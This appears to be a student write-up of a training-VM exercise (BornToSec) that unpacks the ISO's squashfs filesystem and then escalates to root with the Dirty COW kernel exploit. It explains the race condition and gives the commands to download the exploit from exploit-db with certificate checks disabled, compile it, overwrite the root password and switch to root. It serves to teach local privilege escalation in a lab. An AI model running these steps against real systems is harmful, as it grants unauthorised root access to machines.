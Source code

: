 ## Unsquash

* To understand the file structure of the system that we need to Hack, we are going to open given BornToSec ISO file.<br/><br/>
![files_iso](screens/files_iso.png)<br/>
![sqaushed_file](screens/sqaushed_file.png)<br/>
* In casper folder we can see filesystem.squashfs which tells us that system is compessed. It also means that we can decompress system using linux `unsquashfs` function.<br/>
![unsquash](screens/unsquash.jpg)<br/>
You should have access as a laurie via ssh and use /tmp folder to unsqash the system file in /cdrom/casper/filesystem.squashfs

-----------------------------------------------------------------------------------------


## Privilege escalation

* We can access as a lower level user and try to user exisiting explits that will provide us with root access possbily. Exploits are possible for some versions of our system<br/>
![squash_kernel_version](screens/squash_kernel_version.jpg)
* As we know we can execute scripts from tmp folder, only need to upload them there

* There are an [existing script](https://github.com/sneakymonk3y/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh) that we are going to use which named [dirtycow2](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails), it fits perfectly our system version


* A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. All the information we have so far is included in this page.
The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016.
* An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.
* This flaw allows an attacker with a local system account to modify on-disk binaries, bypassing the standard permission mechanisms that would prevent modification without an appropriate permission set.


* getting script `wget --no-check-certificate https://www.exploit-db.com/download/40839 -O dirty.c`

* Giving 755 permissions to the dirty.c file and to compile with `gcc -pthread dirty.c -o dirty -lcrypt`
![exploit](screens/exploit.jpg)
* Then execute it and provide a new password for the root user, then just su root.

* Done!
